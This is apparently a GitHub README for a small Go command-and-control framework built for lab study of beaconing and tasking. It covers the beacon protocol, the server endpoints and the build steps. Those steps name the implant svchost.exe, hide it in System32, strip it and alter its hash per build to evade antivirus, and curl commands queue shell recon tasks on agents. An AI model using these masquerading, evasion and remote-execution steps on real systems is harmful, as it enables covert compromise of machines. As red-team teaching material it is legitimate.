

# Summary
Simple Go-based C2 framework for studying beaconing, tasking, and command execution patterns in a controlled lab environment.

The agent runs on the Windows VM every 30s (_+jitter). It wakes up, collects system info, sends it to the server, waits for instructions, executes tasks it receives, then sleeps and repeats forever

Techniques: EDR evasion, process injection, LotL techniques in controlled lab.

> **Disclaimer:** Lab-only. Runs against a local WSL + VirtualBox Windows VM. Strictly educational for DFIR / red team research. Not for use outside your own lab.

## Protocol
```go
// Beacon: agent -> server every 30s
type Beacon struct {
    AgentID  string    // crypto random 16-byte hex, generated once at startup
    Hostname string    // victim hostname
    Username string    // logged-in user
    OS       string    // windows / linux
    Arch     string    // amd64
    IPs      []string  // non-loopback IPv4 addresses
    PID      int       // agent's own process ID
    CheckIn  time.Time // UTC timestamp
    Result   *Result   // nil on first beacon, populated after task execution
}
 
// Task: server -> agent, returned in beacon response
type Task struct {
    TaskID  string // unique ID so result can be matched back
    Command string // "shell", "sleep"
    Args    string // "whoami /all", "systeminfo", etc
}
 
// Result: embedded in next Beacon after task executes
type Result struct {
    TaskID  string // matches the Task that produced this
    Output  string // stdout + stderr from execution
    Success bool   // true if exit code 0
}
```

## Architecture


Endpoints:
1. `POST /beacon` - Agent check-in (Upsert + Dequeue task)
2. `POST /task` - Queue command for agent
3. `GET /agents` - List active agents

Key points:
- Agent always initiates. Server never pushes. Bypasses firewall by design.
- Result is not returned immediately, but instead 'rides' in the **next** beacon after execution.
- 204 means "nothing queued, go back to sleep". 200 means "here is your task".
- `lastResult` is cleared after it is sent so it is never sent twice.
 
## Build and Deploy
Server:
```
go run server/main.go
```

Agent:

The idea is to inject values into the binary when compiling the program (compile-time string injection):
```
GOOS=windows GOARCH=amd64 \
go build -ldflags="-s -w -H windowsgui -X main.buildTime=`date -u +%Y-%m-%dT:%M:%SZ` -X main.Version=1.0.0" \
-o agent/svchost.exe ./agent/

scp agent/svchost.exe username@vm-ip-address:C:\Windows\System32\
attrib +h +s C:\Windows\System32\svchost.exe

```

**Purpose of each flag (linker flag):**

`-s -w`: Makes the binary tiny, and strips debug info and hides function names, variable names, file paths, go version and compiler info, etc from `strings.exe`.

`-H windowsgui`: No console window

`-X main.buildTime`: To make each binary/hash unique for every build to bypass exact file match. For example:

```
Build #1: SHA256=af4c6e0254 (time="2024-01-15T10:30:00Z")
Build #2: SHA256=cc3b6a13d4 (time="2024-01-15T10:33:00Z") 

AV: ¯\_(ツ)_/¯
```


## Sample Task
Get active agents:
```bash
curl http://localhost:8080/agents
```
Sample Result on Linux:
```
{"452a31f1962260def1260e50ff27252b":{"LastSeen":"2026-04-10T22:48:41.76747401+08:00","Beacon":{"agent_id":"452a31f1962260def1260e50ff27252b","hostname":"workstation","username":"","os":"linux","arch":"amd64","ips":["10.255.255.254","172.31.125.211"],"pid":62314,"check_in":"2026-04-10T14:48:41.760834884Z"}}}
```

Queue a task:
```bash
curl -X POST http://localhost:8080/task \
    -H "Content-Type: application/json" \
    -d '{"agent_id":"<id>","command":"shell","args":"whoami /all"}'
```

Useful recon commands:

```bash
 curl -X POST http://localhost:8080/task \
    -H "Content-Type: applicaiton/json" \
    -d '{"agent_id":"db6a6a863df1b37ab0058977e361870e","command":"shell","args":"systeminfo"}'
```
```bash
curl -X POST http://localhost:8080/task \
    -H "Content-Type: applicaiton/json" \
    -d '{"agent_id":"07ed297f44e41775f20b0e8546bfb147","command":"shell","args":"tasklist"}'
```
```bash
curl -X POST http://localhost:8080/task \
    -H "Content-Type: applicaiton/json" \
    -d '{"agent_id":"07ed297f44e41775f20b0e8546bfb147","command":"shell","args":"netstat -ano"}'
```

## MITRE ATT&CK
| ID | Technique | Where |
|----|-----------|-------|
| T1071.001 | Application Layer Protocol: Web Protocols | HTTP beaconing |
| T1041 | Exfiltration Over C2 Channel | Results ride in beacon body |
| T1082 | System Information Discovery | `Collect()` in service.go |
| T1057 | Process Discovery | `tasklist` via shell command |
| T1049 | System Network Connections Discovery | `netstat -ano` via shell |
| T1036.005 | Masquerading: Match Legitimate Name | Binary named `svchost.exe` |
| T1027 | Obfuscated Files or Information | `-s -w` strip + build time injection |
| T1059.003 | Command and Scripting Interpreter: Windows Command Shell | `cmd.exe /C` execution |
 
<!-- 1. T1071.001: Application Layer Protocol 
2. T1041: Exfiltration Over C2 Channel
3. T1036.005: Masquerading 
4. T1027: Obfuscated Files (compile flags)
5. T1059.003: Command Shell  -->

